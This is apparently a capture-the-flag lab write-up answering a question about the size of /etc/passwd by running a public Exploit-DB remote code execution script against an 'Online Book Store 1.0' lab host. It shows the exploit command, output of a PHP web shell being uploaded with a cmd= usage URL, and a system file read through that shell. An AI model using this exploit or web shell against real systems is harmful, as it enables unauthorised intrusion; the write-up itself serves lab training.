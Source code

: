# Task 29

- [Task 29](#task-29)
  - [How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)](#how-many-characters-are-in-etcpasswd-use-wc--c-etcpasswd-to-get-the-answer)
    - [Answer](#answer)

## How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

Look for CSE bookstore exploit on google and found the: `Online Book Store 1.0 - Unauthenticated Remote Code Execution` [on this link](https://www.exploit-db.com/exploits/47887)

1. Download and verify the contents of the scipt
2. Run the script
   1. python 47887.py http://10.10.232.250


```
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.232.250/bootstrap/img/G0d3qErVCM.php
> Example command usage: http://10.10.232.250/bootstrap/img/G0d3qErVCM.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $  wc -c /etc/passwd
1611 /etc/passwd
```

### Answer

1611